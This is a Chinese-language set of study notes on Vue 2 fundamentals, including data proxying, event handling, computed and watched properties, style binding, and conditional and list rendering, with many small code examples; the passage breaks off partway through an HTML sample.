





## 一、vue是什么

- 文档地址：https://cn.vuejs.org/
- 作者：尤雨溪  [https://baike.baidu.com/item/%E5%B0%A4%E9%9B%A8%E6%BA%AA/2281470?fr=aladdin](https://baike.baidu.com/item/尤雨溪/2281470?fr=aladdin)
- 含义：**Vue (读音 /vjuː/，类似于 view) 是一套用于构建用户界面的渐进式框架**。与其它大型框架不同的是，Vue 被设计为可以自底向上逐层应用。**Vue 的核心库只关注视图层**，不仅易于上手，还便于与第三方库或既有项目整合。另一方面，当与现代化的工具链以及各种支持类库结合使用时，Vue 也完全能够为复杂的单页应用提供驱动。
- 最新版本：3.X  

## 二、为什么使用

- 我们都知道完整的网页是由DOM元素组成的视图结构，再加上CSS样式修饰，结合JavaScript实现与用户进行交互。我们把最基本的视图结构称为视图层，这部分就是Vue核心库关注的部分，为什么关注它呢？因为一些页面元素非常多，结构庞大的页面如果使用传统开发方式，数据和视图会全部混合在HTML结构中，处理起来非常不容易，并且结构之间还存在依赖或者依存关系，代码上就会出现更多的问题。

  用过jQuery的开发人员都有这样的体会，在页面元素不多的时候，有时需要一层层地不断向上寻找父辈元素，随着项目规模的不断扩大，页面结构和代码会变得越来越臃肿，而jQuery选择器及DOM操作本身也存在性能缺失问题，原本轻巧简洁的jQuery代码，也变得无从下手增加维护的成本。

  但是Vue.js解决了这些问题，这些问题都将在Vue中消失。

#### 2.1vue的优点

- 采用组件化模式,提高代码的复用率,让代码更好维护
- 声明式编码,让编码人员无需直接操作DOM,提高开发效率
- 使用虚拟DOM+优秀的DIff算法,尽量复用DOM节点


## 三、官网地址

```
vue2
https://v2.cn.vuejs.org

vue3
https://cn.vuejs.org
```

## 四、优缺点

##### 优点：

```
1.轻量级的数据框架
2.双向数据绑定
3.提供了指令
4.组件化开发
5.客户端路由
6.状态管理
```

##### 缺点：

```
1.Vue 底层基于 Object.defineProperty 实现响应式，而这个 api 本身不支持 IE8 及以下浏 览器，所以Vue不支持IE8及其以下浏览器；
2.Vue 打造的是SPA，所以不利于搜索引擎优化(SEO)；

```


## 五、下载以及引入

- 开发环境（未上线版本）提供了错误和警告信息

```
https://cdn.jsdelivr.net/npm/vue@2.7.14/dist/vue.js
```

- 生产环境（上线版本）

```
https://cdn.jsdelivr.net/npm/vue@2.7.14
```

​	npm 下载安装

```js
npm install vue@^2
```


## 六、基本应用

第一步：引入核心库

第二步：创建一个容器，让其承载vue的语法

第三步：逻辑操作

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <!-- 第一步 引入核心库，建议大家在本地引入开发环境，因为开发环境包含错误信息和警告 -->
    <script src="./node_modules/vue/dist/vue.js"></script>
    <title>这是一个基本案例</title>
</head>

<body>
    <!-- 第二步，创建一个容器，让其承载vue的语法 -->
    <div id="box">
        <!-- 利用{{}} ，叫插值表达式 -->
        {{msg}}
    </div>
    <!-- 原样输出，此处不受vue管控 {{msg}} -->

    <!-- 第三步，逻辑操作 -->
    <script>
        // Vue 是一个构造函数  实例化之后得到了vue的实例，它下面有核心属性和方法，它的原型链有三层
 
        // 接收配置对象
        new Vue({
            el: '#box', // 挂载点 类似于 querySelector
            // data属性 也就是数据变量，这里省略了声明方式，省略了let var const，我们可以直接定义
            // 定义在这里的数据，可以直接在插值表达式中使用
            data: {
                msg: 'vue真的是太简单了......'
            }
        })
    </script>
</body>

</html>
```


## 七、基本配置

### 1.El元素两种写法

#### 1.1  new vue配置el

```js
    new Vue({
        el:'.root',
        data:{
            name:'名字'
        }
    })
```

挂载点。不能把Vue挂载html或者body上，只能挂载到一个正常的元素上
我们也不推荐挂载到class元素上，因为每一个实例都是唯一的，推荐挂载到id元素上

#### 1.2先创建vue实例,在通过xxx.$mount('')制定

可以定时之后再去接管

```js
<body>
    <div class="root">
        <input type="text" v-bind:value="name">
        <input type="text" v-model:value="name">
        <h1>{{name}}</h1>
    </div>
</body>
<script>
   const vue = new Vue({
        data:{
            name:'名字'
        }
    })
    setTimeout(()=>{
        vue.$mount('.root')
    },1000)
</script>
```


### 2.data的两种写法

#### 2.1对象式写法

```js
    new Vue({
        el:'.root',
        data:{
            name:'名字'
        }
    })
```

#### 2.2函数式

```js
   const vue = new Vue({
        data: function (){
            console.log(this);//此处的this是vue实例对象
            return{
                name:'aaa'
            }
        }
    })
```

**vue管理的函数不要写箭头函数**

注意点：

- el      **挂载节点**  将这个vue实例和作用节点范围关联起来

- data    **数据对象**  节点范围内使用到的数据

  - data里面的数据，我们可以在模板中通过插值表达式进行展示！  

  - **data里面的变量数据，最后都变成了这个vue实例的属性！**

  - **data里面的变量数据一旦发生了改变，页面数据会自动更新！**


### 3.插值表达式

data中的数据，最终挂载在vue的实例上

**vue会通过{{}}去渲染data属性，但{{}}里面不能写复杂的语句，比如switch、if以及for，可以写三目运算。**

总之：{{}}里面放简单js以及Vm身上所有的属性以及Vue原型上所有的属性


## 八、MVVM

#### M:模型(model):对应data中的数据

#### V:视图(view):模版

#### VM:视图模型(ViewModel):Vue实例对象

观察发现:

- Data中所有的属性,最后都出现在了vm身上
- Vm身上所有的属性以及Vue原型上所有的属性,在Vue模版中都可以直接使用


## 九、数据代理

#### 1.Object.defineproperty方法

```js
 <script>
        let number =19
        let person={
            name:'咱三',
            sex:'男'
        }
        Object.defineProperty(person,'age',{
            value:18,
            enumerable:true,//控制属性是否可以枚举,默认false
            writable:true,//控制属性是否可以被修改,默认false
            configurable:true,//控制属性是否可以被删除,默认false

            // 当有人读取Person的age属性时,get函数(getter)就会调用,且返回值就是age的值
            get: function (){
                console.log('有人读取age属性了');
                return number
            },
            // 当有人修改Person的age属性时,set函数(getter)就会调用,且会收到修改的具体值
            set(value){
                console.log('有人修改了age属性,且值是',value);
                number = value
            }
        })
    </script>
```

#### 2.何为数据代理

通过一个对象代理对另一个对象中的属性的操作(读/写)

```js
        let obj = {x:100}
        let obj2 = {y:200}
        Object.defineProperty(obj2,'x',{
            get(){
                return obj.x
            },
            set(value){
                obj.x = value
            }
        })
```

可以通过obj2操作obj的x,修改obj2的xobj1也会变

#### 3.vue中的数据代理

通过vm对象来代理data对象中属性的操作(读/写)

##### 好处:

更加方便的操作data中的数据

##### 基本原理:

通过Object.defineProperty()把data对象中所有属性添加到vm上,为每一个添加到vm上的属性,都制定一个getter和setter

在getter和setter颞部去操作data中的数据



## 十、事件处理

### 1.事件基本使用

- 使用v-on:xxx或@xxx绑定事件,xxx是事件名
- 事件的会嗲需要配置再methods中,最终会在vm上
- methods中配置的函数不需要箭头函数,否则this就不是vm了
- methods中配置的函数,都是被vue所管理的函数,this的指向是vm或组件实例对象
- @click='demo'和@click='demo($event)'效果一致,但是后者可以传参

```js
 <div id="root">
        <h1>{{name}}</h1>
        <h1>{{age}}</h1>
        <!-- <button v-on:click="showinfo"> 点我</button> -->
        <button @click="showinfo(666,$event)"> 点我</button>
    </div>
    <script>
        Vue.config.productionTip = false
            new Vue({
            el:'#root',
            data:{
                name:'薛屹阳',
                age:21
            },
            methods:{
                showinfo(number,event){
                    console.log(number,event);
                }
            }
        })
    </script>
```

### 2.事件修饰符

- Prevent:阻止默认事件(常用)
- stop:阻止事件冒泡(常用)
- once:事件只触发一次(常用)
- capture:使用事件的捕获模式
- self:只有event.target是当前操作的元素时才触发事件
- passive:事件的默认行为立即执行

```js
<a href="http://baidu.com" @click.prevent="showinfo></a>
```

```js
 <div class="demo1" @click="showmsg">
            <button @click.stop="showmsg">冒泡</button>
            <!-- 阻止冒泡在子元素上写 -->
        </div>
        <div class="demo2" @click.capture="showmsg2(2)">
            <!-- 使用事件捕获在父元素 -->事件捕获2
            <div @click="showmsg2(1)">事件捕获</div>
        </div>
```

```js
 showmsg(a) {
                    console.log(a.target);
                },
                showmsg2(a) {
                    console.log(a);
                },
```

v-model修饰符

- *v-model.trim 去掉前后空格* 
- *v-model.number将存的数字保存为number格式*
- *v-model.lazy失去焦点再保存数据*

### 3.键盘事件

#### 1.vue常用键盘别名:

- 回车:enter
- 删除:delete
- 退出:esc
- 空格:space
- 换行:tab
- 上:up
- 下:down
- 左:left
- 右:right

#### 2.vue未提供别名的按键,可以使用按键原始的key值去绑定,但注意转为kebab-case(短横线命名)

#### 3.系统修饰键(用法特殊):ctrl,alt,shift,meta

尽量使用keydown

#### 4.也可以使用keyCode(不推荐)

#### 5.Vue.config.keyCodes.自定义键名 = 键码 

## 十一、计算属性

### 定义:

要用的属性不存在,要通过已有属性计算得来

### 原理:

底层借助Object.defineProperty方法提供的getter和setter

### 优势:

与methods相比,内部有缓存机制(复用),效率更高,调试方便

### 备注:

- 计算属性最终会出现在vm上,直接读取使用即可
- 如果计算属性要被修改,必须写set函数去响应修改,且set中要引起计算的数据发生变化

### 1.姓名案例插值语法实现

```js
<body>
    <div id="box">
        性:<input type="text" v-model:value="firstname"><br>
        名: <input type="text" v-model:value="lastname"> <br>
        姓名: <span>{{firstname}}{{lastname}}</span>
    </div>
</body>
<script>
    const vm = new Vue({
        el:'#box',
        data:{
            firstname:'张',
            lastname:'三',
        }
    })
</script>
```

### 2.姓名案例methods方法实现

```js
<body>
    <div id="box">
        性:<input type="text" v-model:value="firstname"><br>
        名: <input type="text" v-model:value="lastname"> <br>
        姓名: <span>{{fullname()}}</span>
    </div>
</body>
<script>
    const vm = new Vue({
        el:'#box',
        data:{
            firstname:'张',
            lastname:'三',
        },
        methods:{
            fullname(){
                return this.firstname + this.lastname
            }
        }
    })
</script>
```

### 3.姓名案例计算属性实现

研究发现多次调用计算属性时只会调用一次get? Vue缓存机制

get什么时候被调用? 

- 初次读取fullname时
- 所依赖的数据发送变化时

set什么时候被调用?

- 当fullname被修改时

```js
 const vm = new Vue({
        el:'#box',
        data:{
            firstname:'张',
            lastname:'三',
        },
        methods:{
            a(){
                this.fullname = '薛屹阳'
            }
        },
        computed:{
            fullname:{
                // 当有人读取fullname时,get会被调用,且返回值作为fullname的值
                get(){
                    return this.firstname + this.lastname
                },
                set(value){
                    console.log('value:',value);
                    const fname = value.slice(0,1)
                    const lname = value.slice(1)
                    console.log('fname:',fname);
                    console.log('lname:',lname);
                    this.firstname = fname
                    this.lastname = lname
                }
            }
        }
    })
</script>
```

#### 简写

当不需要set时可以简写

```js
 computed:{
            fullname(){
                    return this.firstname + this.lastname
                },
            }
```

## 十二、监视属性

- 当监视的属性变化时,回调函数自动调用,进行相关操作
- 监视的属性必须存在才能监视
- 监视的两种写法
  - new Vue时写入watch配置
  - 通过vm.$watch监视

### 天气案例

```js
<script>
   const vm = new Vue({
        el:'#box',
        data:{
            ishot:true,

        },
        computed:{
            info(){
                return this.ishot?'炎热':'凉爽'
            }
        },
        methods:{
            change(){
                this.ishot = !this.ishot
            }
        },
        watch:{
            ishot:{
                immediate:true,//初始化时让handelr调用一下
                handler(newval,oldval){
                    console.log('修改了',newval,oldval);
                }
            },
            info:{
                immediate:true,//初始化时让handelr调用一下
                handler(newval,oldval){
                    console.log('修改了',newval,oldval);
                }
            }
        }
    })
</script>
```

### 天气案例另一种写法

```js
    vm.$watch('ishot', {
        immediate: true,//初始化时让handelr调用一下
        handler(newval, oldval) {
            console.log('修改了', newval, oldval);
        }
    })
```

### 深度监视

- vue中的watch默认不监测对象内部值的改变
- 配置deep:true可以监测对象内部值改变
- vue自身可以监测对象内部值的改变,但vue提供的watch默认不可以
- 使用watch时根据数据的具体结构,决定是否采用深度监视

```js
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="../js/vue (1).js"></script>
</head>

<body>
    <div id="box">
        <h2>今天天气很{{info}}</h2>
        <button @click="change">切换天气</button>
        <h2>{{number.a}}</h2>
        <button @click="number.a++">a</button>
        <h2>{{number.b}}</h2>
        <button @click="number.b++">b</button>
    </div>
</body>
<script>
    const vm = new Vue({
        el: '#box',
        data: {
            ishot: true,
            number:{
                a:1,
                b:2,
            }
        },
        computed: {
            info() {
                return this.ishot ? '炎热' : '凉爽'
            }
        },
        methods: {
            change() {
                this.ishot = !this.ishot
            }
        },
        watch: {
            ishot: {
                immediate: true,//初始化时让handelr调用一下
                handler(newval, oldval) {
                    console.log('修改了', newval, oldval);
                }
            },
            info: {
                immediate: true,//初始化时让handelr调用一下
                handler(newval, oldval) {
                    console.log('修改了', newval, oldval);
                }
            },
            // 监视多级结构中某个属性的变化
            'number.a':{
                handler(){
                    console.log('a改变了');
                }
            },
            number:{
                // 监视多级结构所有属性的变化
                deep:true,
                handler(){
                    console.log('整体变了');
                }
            }
        }
    })
    vm.$watch('ishot', {
        immediate: true,//初始化时让handelr调用一下
        handler(newval, oldval) {
            console.log('修改了', newval, oldval);
        }
    })
</script>
</html>
```

监视的简写

```js
watch:{
            ishot(newval,oldval){
                console.log('修改了', newval, oldval);
            }
}
```

```js
    vm.$watch('ishot', function (newval,oldval){
        console.log('修改了', newval, oldval);
    })
```

### 监视实现计算属性姓名案例

```js
 <div id="box">
        性:<input type="text" v-model:value="firstname"><br>
        名: <input type="text" v-model:value="lastname"> <br>
        姓名: <span>{{fullname}}</span>
        <!-- <button @click="a()">aaaaaaa</button> -->
    </div>
</body>
<script>
    const vm = new Vue({
        el:'#box',
        data:{
            firstname:'张',
            lastname:'三',
            fullname:'qwewqewq'
        },
        methods:{
            a(){
                this.fullname = '薛屹阳'
            }
        },
        watch:{
            firstname(newval,oldval){
                this.fullname = newval + this.lastname
            },
            lastname(newval,oldval){
                this.fullname = this.firstname + newval
            }
        }
    })
```

## 十三、计算属性和监视属性的额取舍

- <u>**计算属性无法开启异步任务去维护数据,因为computed靠的是返回值,而监视属性通过亲自西代码来修改数据所有可以开启异步任务**</u>
- computed能完成的功能watch都可以完成
- watch能完成的功能,computed不一定能完成,例如watch可以异步操作

两个重要点

- 所被Vue管理的函数,最好写成普通函数,这样this的指向才是vm或组件实例对象
- 所有不被Vue所管理的函数(定时器的回调函数,ajax的回调函数,promise等),最好写成箭头函数,这样this的指向才是vm或组件实例对象

```js
watch:{
	firstname(newval){
		settimeout(()=>{
		console.log(this)//此时的this为外层firstname普通函数调用,所以是vm
		},1000)
	}
}
```

## 十四、绑定样式

### 1.绑定class样式字符串写法,适用于:样式的类名不确定.需要动态指定

```js
<body>
    <div id="a">
        <div class="basic" :class="mood" @click="changemood">{{name}}</div>
    </div>
</body>
    <script>
        const vm = new Vue({
            el:'#a',
            data:{
                name:'我',
                mood:'happy'
            },
            methods:{
                 changemood(){
                    const arr = ['happy','normal','sad']
                    const index = Math.floor(Math.random()*3)
                    this.mood=arr[index]
                }
            }
        })
    </script>
```

### 2.绑定class样式数组写法,适用于:要绑定的样式个数不确定,名字也不确定

```js
        <div class="basic" :class="arr" @click="changemood">{{name}}</div>
    </div>
</body>
    <script>
        const vm = new Vue({
            el:'#a',
            data:{
                name:'我',
                mood:'happy',
                arr:['a1','a2','a3'],
```

### 3.绑定class样式对象写法,适用于:要绑定的样式个数不确定,名字确定,但要动态决定用不用

```js
      obj:{
                    a1:false,
                    a2:true,
                    a3:true
                }
```

### 4.内联style

```js
   style:{
                    fontSize:'40px',
                    backgroundColor:'orange'
                }//注意大小写
```

### 总结

#### class样式

写法:class='xxxx'xxx可以是字符串,对象,数组

- 字符串写法适用于类名不确定,要动态获取
- 对象写法适用于:要绑定多个样式,个数不确定,名字也不确定
- 数组写法适用于:要绑定多个样式,个数确定,名字也确定,但不确定用不用

#### style样式

- style='{fontSize:xxx}'其中xxx是动态值
- :style='[a,b]'其中a,b是样式对象

## 十五、条件渲染

#### v-show

>相当于添加了display:none

#### v-if

>直接删除结构

适用于切换频率低的场景

**<u>注意:v-if,v-else-if,v-else之间结构不能被打断</u>**

#### v-else-if

>判断v-if成立后跳过v-else-if

```js
        <div v-if="n===1"></div>
        <div v-else-if="n===1"></div>
        <div v-else-if="n===2"></div>
```

#### v-else

>无需写条件

```js
        <div v-if="n===1"></div>
        <div v-else-if="n===1"></div>
        <div v-else-if="n===2"></div>
        <div v-else></div>
```

当需要控制多个显示时可以使用template+v-if

```js
   <template v-if="n===1">
            <h1>1</h1>
            <h1>1</h1>
            <h1>1</h1>
        </template>
```

## 十六、列表渲染

### 1.基本列表

v-for指令:

- 用于展示列表数据
- 语法:v-for="(item,index) in xxx":key='yyy'
- 可遍历:数组,对象,字符串.指定次数

```js
<div class="root">
        <ul>
            <li v-for="(item,index) in persons" :key="item.id">
               {{index}}: {{item.name}}-{{item.age}}
            </li>
        </ul>
    </div>
</body>
<script>
    const vm = new Vue({
        el:'.root',
        data:{
            persons:[
                {id:'001',name:'张飒',age:12},
                {id:'002',name:'流水',age:14},
                {id:'003',name:'大数据',age:132}
            ]
        }
    })
```

### 2.key的原理





#### 面试题:react、vue中的key有什么作用?(key的内部原理)

##### 1.虚拟DOM中key的作用:

key是虚拟DOM对象的标识，当状态中的数据发生变化时，Vvue会根据【新数据】生成【新的虚拟DOM)】,随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较，比较规则如下:

##### 2.对比规则:

- (1).旧虚拟DOM中找到了与新虚拟DOM相同的key:o.若虚拟DOM中内容没变,直接使用之前的真实DOM !@.若虚拟DOM中内容变了，则生成新的真实DOM，随后替换掉页面中之前的真实DOM。
- (2).旧虚拟DOM中未找到与新虚拟DOM相同的key创建新的真实DOM,随后渲染到到页面。

##### 3.用index作为key可能会引发的问题:

- 1.若对数据进行:逆序添加、逆序删除等破坏顺序操作:会产生没有必要的真实DOM更新==〉界面效果没问题，但效率低。

- 2.如果结构中还包含输入类的DOM:会产生错误DOM更新==〉界面有问题。

- ```js
  <body>
      <div class="root">
          <button @click.once="add">添加</button>
          <ul>
              <li v-for="(item,index) in persons" :key="index">
                 {{index}}: {{item.name}}-{{item.age}}  <input type="text">
              </li>
          </ul>
      </div>
  </body>
  <script>
      const vm = new Vue({
          el:'.root',
          data:{
              persons:[
                  {id:'001',name:'张飒',age:12},
                  {id:'002',name:'流水',age:14},
                  {id:'003',name:'大数据',age:132}
              ]
          },
          methods:{
              add(){
                  const p = {id:'004',name:'老刘',age:40}
                  this.persons.unshift(p)
              }
          }
      })
  </script>
  ```

  

##### 4.开发中如何选择key? :

- 1.最好使用每条数据的唯一标识作为key,比如id、手机号、身份证号、学号等唯一值。
- 2.如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，使用index作为key是没有问题的。

### 3.列表过滤

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="../js/vue (1).js"></script>
</head>

<body>
    <div class="root">
        <input type="text" v-model="keyword" placeholder="输入名字">
        <ul>
            <li v-for="(item,index) in filterpersons" :key="item.id">
                {{index}}: {{item.name}}-{{item.age}}-{{item.sex}}
            </li>
        </ul>
    </div>
</body>
<script>
    // watch实现
    const vm = new Vue({
        el: '.root',
        data: {
            keyword: '',
            persons: [
                { id: '001', name: '马冬梅', age: 12, sex: '女' },
                { id: '002', name: '周冬雨', age: 14, sex: '女' },
                { id: '003', name: '周杰伦', age: 132, sex: '男' },
                { id: '004', name: '温兆伦', age: 132, sex: '男' }
            ],
            filterpersons: []
        },
        watch: {
            keyword: {
                immediate: true,
                handler(newval, oldval) {
                    console.log(newval);
                    this.filterpersons = this.persons.filter((p) => {
                        return p.name.indexOf(newval) !== -1
                    })
                }
            }
        }
    })
    // computed实现
    const vm = new Vue({
        el: '.root',
        data: {
            keyword: '',
            persons: [
                { id: '001', name: '马冬梅', age: 12, sex: '女' },
                { id: '002', name: '周冬雨', age: 14, sex: '女' },
                { id: '003', name: '周杰伦', age: 132, sex: '男' },
                { id: '004', name: '温兆伦', age: 132, sex: '男' }
            ],
        },
        computed:{
            filterpersons(){
                return this.persons.filter((p)=>{
                    return p.name.indexOf(this.keyword)!==-1
                })
            }
        }
    })
</script>
</html>
```

### 4.列表排序

```js
    const vm = new Vue({
        el: '.root',
        data: {
            keyword: '',
            sorttype:0,//0=原顺序1=降序2=升序 
            persons: [
                { id: '001', name: '马冬梅', age: 12, sex: '女' },
                { id: '002', name: '周冬雨', age: 14, sex: '女' },
                { id: '003', name: '周杰伦', age: 132, sex: '男' },
                { id: '004', name: '温兆伦', age: 66, sex: '男' },
                { id: '005', name: '陈按时', age: 34, sex: '男' },
                { id: '006', name: '周深度', age: 87, sex: '男' },
                { id: '007', name: '刘埃及', age: 23, sex: '男' },
                { id: '008', name: '周等我', age: 999, sex: '男' },
            ],
        },
        computed:{
            filterpersons(){
                const arr = this.persons.filter((p)=>{
                    return p.name.indexOf(this.keyword)!==-1
                })
                //判断是否需要排序
                if(this.sorttype!==0){
                    arr.sort((p1,p2)=>{
                        return this.sorttype ===1?p2.age-p1.age:p1.age-p2.age
                    })
                }
                return arr
            }
        }
    })
</script>
```

### 5.Vue监视数据的原理

1.vue会监视data中所有层次的数据

2.如何监测对象中的数据?

通过setter实现监视,且要在new Vue时2就传入要检测的数据

- 对象中后追加的属性,Vue默认不做响应式处理
- 如需给后追加的属性做响应式,请使用以下api:
  - Vue.set(目标数组/对象,数组索引下标/对象名称,值)或
  - This.$set(目标数组/对象,数组索引下标/对象名称,值)

3.如何监测数组中的数据?

通过包裹数组更新严肃的方法实现,本质就是做了两件事:

- 调用原生对应的数组破坏方法(pop,push,splice)对数组进行更新
- 重新解析模版,进而更新页面

4.在Vue修改数组中的某个元素一定要用如下方法:

- 使用这些api:push,pop,shift,unshift,splice,sort,reverse
- Vue.set()或vm.$set(this.$set)

$$
特别注意:vue.set()和vm.$set()不能给vm或vm的跟数据对象添加属性!
$$

```js
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <script src="../js/vue (1).js"></script>
</head>
<body>
    <div class="root">
        <button @click="student.age++">年龄加一岁</button>
        <button @click="addSex">添加性别属性,默认值:男</button>
        <button @click="addfriend">在列表首位添加一个朋友</button>
        <button @click="changefriend">修改第一个朋友的名字为张三</button>
        <button @click="addhobby">添加一个爱好</button>
        <button @click="changehobby">修改第一个爱好为开车</button>
        <button @click="filterhobby">过滤爱好中的抽烟</button>
        <h2>姓名:{{student.name}}</h2>
        <h2>年龄:{{student.age}}</h2>
        <h2 v-if="student.sex">性别:{{student.sex}}</h2>
        <h2>爱好</h2>
        <ul>
            <li v-for="(h,index) in student.hobby" :key="index">{{h}}</li>
        </ul>
        <h2>朋友们</h2>
        <ul>
